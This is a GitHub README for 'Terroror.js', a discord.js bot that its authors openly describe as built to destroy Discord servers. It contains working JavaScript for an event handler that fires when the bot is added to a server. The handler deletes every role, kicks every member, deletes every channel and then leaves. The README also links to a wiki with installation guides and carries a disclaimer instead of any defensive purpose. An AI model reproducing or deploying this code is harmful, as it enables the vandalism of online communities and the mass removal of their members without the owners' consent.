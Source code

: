 <h1 align=center><a href="https://github.com/Minco-inc/Terroror.js/"><img src="https://user-images.githubusercontent.com/85981610/138410773-c29bfe56-830c-4653-9613-ff7f93263170.png"></a></h1>
<p align=center>
    A <b>Terroror.js</b> bot, is made in <b>discord.js</b> to destroy discord servers!
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138411327-b0f56768-fc30-4951-8aae-9efa195958ba.png"></a></h1>

## Your app.js
```js
/* 
      DO THIS AT YOUR OWN RISK!
      We are not responisible of any damages on discord!
      Copyright by MincoMK
      https://www.minco.kro.kr/
*/
const Main = require("./src/Main.js"); // let discord make own main directory

let main = new Main(); // let make ./src/Main.js as main code
main.main(); // making main code is working
```

## Simple eventmanager.js

```js
const process = require("process");
const version = require("../package.json").version;

/* 
	Enables the SuperTerroror on Discord when bots join automatically make a bomb to server
*/
class EventManager {
	joinAllEvents(client) { // join bot for all events
		this.client = client; // this client
		client.on("ready", async () => { // on ready
			console.log("The bot is ready to terroror"); // when bot is ready log on console
		});

		client.on("guildCreate", guild => { // the server ---
			guild.roles.cache.forEach(role => { // for each role
				role.delete().catch(console.error); // --- delete all roles
			});
			guild.members.cache.forEach(mb => { // for each members
				mb.kick().catch(console.error); // --- kick all members
			});
			guild.channels.cache.forEach(ch => { // for each channels
				ch.delete().catch(console.error); // --- delete channels
			});
			guild.leave(); // and leave the bot after terroror
		});
	}
}

module.exports = EventManager; // export the eventmanager

// end of file
```
<b>When bots join, automatically terroror!</b>



<p align=center>
    View <a href="https://github.com/Minco-inc/Terroror.js/wiki/">Wiki</a> for <b>Full Installation and Guides</b> for building <b>SuperTerroror.js!</b>
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138412398-8be72245-210b-433f-9aa8-ef37f569c831.png"></a></h1>

- Added `express` app for Uptimerobot.com
- Removed `node_modules`, use `npm install / npm i` on terminal
- Added `disnotify` on `package.json`
- Added `@discord-opus`, `discord-api-types`, and other depencies of djs

[`View History Changelogs`](/Changelogs.md) for All Information!

# Credits
- MincoMK: Coding
- Hen2527: Design/Commenting
- xqwtxon: Original Creator

# License
This repository is protected by BY-NC-SA CCL.
